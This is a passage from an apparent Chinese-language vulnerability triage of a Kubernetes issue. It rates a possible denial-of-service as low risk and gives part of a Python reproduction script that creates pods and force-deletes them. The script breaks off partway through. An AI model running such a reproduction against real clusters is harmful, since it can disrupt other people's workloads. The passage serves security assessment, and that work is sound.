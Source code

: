 根据给出的风险判断标准，此问题可以被视为一次可能导致拒绝服务（DoS）的安全问题，但需要具备创建、删除（即至少可管理容器或Pod）等非只读权限才能触发。按照第5条规则：“当漏洞利用需要攻击者具备创建、修改等非只读权限时，则不应判断为高风险”，因此可判定为低风险的DoS问题。

**复现过程：**

```python
import os
import time
import signal
import threading

from kubernetes import client, config, watch
from kubernetes.client import V1Pod, V1ObjectMeta, V1PodSpec, V1Container

def timeout_handler(signum, frame):
    raise Exception("执行超时，脚本结束。")

def create_pod_object(name, image="busybox", command=["sleep", "3600"]):
    """
    创建一个简单的 Pod 对象，用于测试。
    """
    return V1Pod(
        metadata=V1ObjectMeta(name=name),
        spec=V1PodSpec(
            containers=[
                V1Container(
                    name="test-container",
                    image=image,
                    command=command
                )
            ],
            restart_policy="Never"
        )
    )

def force_kill_pod(core_v1_api, pod_name, namespace="default"):
    """
    模拟对正在运行/创建中的容器进行强制删除，可能导致容器处于不确定状态。
    """
    try:
        core_v1_api.delete_namespaced_pod(
            name=pod_name,
            namespace=namespace,
            body=client.V1DeleteOptions(grace_period_seconds=0)
        )
        print(f"[INFO] 强制删除请求已发送: {pod_name}")
    except Exception as e:
        print(f"[ERROR] 强制删除请求失败: {pod_name}, 原因: {str(e)}")

def main():
    # 设置超时信号，防止脚本长时间运行
    signal.signal(signal.SIGALRM, timeout_handler)
    signal.alarm(120)  # 2分钟后触发

    # 1. 加载 kubeconfig，假设在默认位置
    config.load_kube_config()

    # 2. 初始化 Kubernetes API 客户端
    core_v1_api = client.CoreV1Api()

    test_namespace = "default"

    # 3. 尝试创建多个Pod，部分使用不存在或错误镜像，制造“未知”状态
    pod_names = []
    for i in range(5):
```